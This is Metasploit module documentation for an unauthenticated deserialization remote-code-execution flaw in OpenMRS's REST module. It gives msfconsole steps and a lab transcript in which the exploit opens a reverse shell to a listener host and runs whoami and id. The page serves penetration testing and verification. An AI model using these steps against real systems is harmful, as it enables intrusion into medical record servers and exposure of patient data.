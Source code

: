 ## Vulnerable Application

  OpenMRS is an open-source platform that supplies
  users with a customizable medical record system.

  There exists an object deserialization vulnerability
  in the `webservices.rest` module used in OpenMRS Platform
  for versions below `v2.24.0`. Unauthenticated remote code
  execution can be achieved by sending a malicious XML payload
  to a Rest API endpoint such as `/ws/rest/v1/concept`.

  Vulnerable versions of the software can be found [here](https://sourceforge.net/projects/openmrs/files/releases/).

  Tested on OpenMRS Platform `v2.1.2` and `v2.21` with Java
  8 and Java 9.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/http/openmrs_deserialization```
  4. Do: ```set TARGETURI <uri>```
  5. Do: ```set RHOSTS <ip>```
  6. Do: ```run```
  7. You should get a shell.

## Scenarios

### OpenMRS Platform `v2.1.2`

  ```
  msf5 > use exploit/multi/http/openmrs_deserialization 
  msf5 exploit(multi/http/openmrs_deserialization) > set rhosts 192.168.37.168
  rhosts => 192.168.37.168
  msf5 exploit(multi/http/openmrs_deserialization) > set targeturi /openmrs-standalone
  targeturi => /openmrs-standalone
  msf5 exploit(multi/http/openmrs_deserialization) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf5 exploit(multi/http/openmrs_deserialization) > check
  [*] 192.168.37.168:8081 - The target appears to be vulnerable. OpenMRS platform version: 2.1.2
  msf5 exploit(multi/http/openmrs_deserialization) > run

  [*] Started reverse TCP double handler on 192.168.37.1:4444 
  [*] Target is running OpenMRS
  [*] Formatting payload
  [*] Sending payload...
  [*] Accepted the first client connection...
  [*] Accepted the second client connection...
  [*] Command: echo wKYK4x9ZOHJ37tm7;
  [*] Writing to socket A
  [*] Writing to socket B
  [*] Reading from sockets...
  [*] Reading from socket B
  [*] B: "wKYK4x9ZOHJ37tm7\r\n"
  [*] Matching...
  [*] A is input...
  [*] Command shell session 1 opened (192.168.37.1:4444 -> 192.168.37.168:45048) at 2019-11-21 14:13:09 -0600

  whoami
  space
  id
  uid=1000(space) gid=1000(space) groups=1000(space),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
  ```
